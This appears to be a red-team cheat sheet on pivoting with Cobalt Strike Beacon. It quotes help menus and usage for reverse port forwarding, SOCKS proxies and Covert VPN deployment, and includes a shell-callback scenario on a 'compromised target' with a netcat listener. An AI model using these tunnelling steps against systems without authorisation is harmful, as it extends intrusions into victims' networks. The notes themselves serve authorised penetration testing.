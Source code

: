 # Cobalt Strike

## 01 - Rportfwd (Reverse Port Forwarding)

### 1.1 - Help Menu

To bind ports for the server side.

```
beacon> help rportfwd
Use: rportfwd [bind port] [forward host] [forward port]
     rportfwd stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port and use Beacon
to relay traffic between the two connections.
```

To bind ports for the operator side.

```
beacon> help rportfwd_local
Use: rportfwd_local [bind port] [forward host] [forward port]
     rportfwd_local stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port, via your
Cobalt Strike client, and use Beacon to relay traffic between the two connections.
```

### 1.2 - Usage

#### 1.2.1 - Syntax

```
beacon> rportfwd <bind_port> <forward_host> <forward_port>

beacon> rportfwd stop <bind_port>
```

### 1.3 - Scenarios

#### 1.3.1 - Shell Handler Reverse Callback Session

```
beacon> rportfwd_local add -b 0.0.0.0:5986 -r <compromised_target_IP>:5986

beacon> rportfwd_local 5986 <compromised_target_IP> 5986

$ nc -lnvp 5986
```

## 02 - SOCKS Proxy

### 2.1 - Help Menu

```
beacon> help socks
Use: socks [stop]
     socks [port]
     socks [port] [socks4]
     socks [port] [socks5]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password] [enableLogging|disableLogging]

Starts a SOCKS4a (default) or SOCKS5 server on the specified port.
This server will relay connections through this Beacon.

SOCKS5 servers can be configured with NoAuth authentication (default),
User/Password authentication, and some additional logging.

SOCKS5 Servers currently do not support GSSAPI authentication,
UDP Association, and IPV6.

Use socks stop to stop the SOCKS servers and terminate existing connections.

Traffic will not relay while Beacon is asleep. Change the sleep time with the
sleep command to reduce latency.
```

### 2.2 - Usage

Start SOCKS4A Proxy server.

```
beacon> socks <PORT> socks4
```

Start SOCKS5 Proxy server with or without authentication. You can optionally enable logging when tunneling.

```
beacon> socks <PORT> socks5 <enableNoAuth | disableNoAuth> [username] [password] [enableLogging | disableLogging]
```

Refer to [[Proxychains]]

## 03 - Convert VPN Tunnel

> [!NOTE] Elevated Privileges is required
> You must have elevated privileges on the windows target.

### 3.1 - Help Menu

```
beacon> help covertvpn
Use: covertvpn [interface] [ip address]

Deploy a Covert VPN to the target's system. You must have administrator
privileges for the client to work. 

Setup an [interface] through Cobalt Strike -> VPN Interfaces. The 
[ip address] is the IP address of the target interface you want to deploy
the VPN client to.
```

### 3.2 - Usage

```
beacon> covertvpn phear0 <new_IPv4_address>

userware@hackware-os:~$ sudo ip address add <new_IPv4_address>/24 dev phear0
```